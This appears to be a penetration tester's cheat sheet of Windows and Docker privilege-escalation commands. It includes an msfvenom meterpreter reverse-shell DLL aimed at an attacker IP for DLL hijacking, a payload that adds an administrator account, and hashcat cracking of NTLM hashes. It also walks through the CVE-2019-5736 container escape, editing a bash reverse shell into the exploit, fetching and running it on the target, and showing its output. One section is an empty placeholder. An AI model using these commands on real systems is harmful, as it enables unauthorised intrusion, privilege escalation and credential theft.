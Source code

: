 DLL Hijacking:
```
# If service found with hijackable DLL. Run commands locally and transfer the malicious dll
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.1 LPORT=4444 -f dll -o msf.dll
# Or make your own: https://github.com/carlospolop/hacktricks/blob/master/windows/windows-local-privilege-escalation/dll-hijacking.md#your-own
# Possible payload: cmd.exe /k net localgroup administrator bob /add
# Move it to the destination folder
sc stop bad-service & sc start bad-service
```

Service Permissions:
```
Placeholder
```

Check permissions of all folders inside PATH:
`for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )`

RDP in linux to Windows Machine:
`xfreerdp /u:admin /p:password /cert:ignore /v:$IP /workarea`

Recursive lookup in windows:   
`where /R c:\ bash.exe`


Cracking NTLM hash:   
```
echo 'username::SERVERNMAE:HASH1:4HASH2' >> hash.txt

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

## Docker Priv Esc
CVE-2019-5736. Following https://github.com/Frichetten/CVE-2019-5736-PoC , we can create a sh binary that will overwrite /bin/sh on the docker instance. This will let us elevate to a root shell.

```
# Kali (Window 1)
wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go
vim main.go
# Edit the following line:
# var payload = "#/bin/bash \n bash -i >& /dev/tcp/<your ip>/1337 0>&1"
go build main.go
python3 -m http.server 80
# Kali (Window 2)
nc -nvlp 1337

# Remote machine (Window 1)
sudo docker exec -it dockername bash
cd /tmp
wget <your ip>/main
chmod +x main
./main
# Output:
# [+] Overwritten /bin/sh successfully
# [+] Found the PID: 7993
# [+] Successfully got the file handle
# [+] Successfully got write handle &{0xc000392060}

# Notebook machine (Window 2)
sudo docker exec -it dockername /bin/sh
```
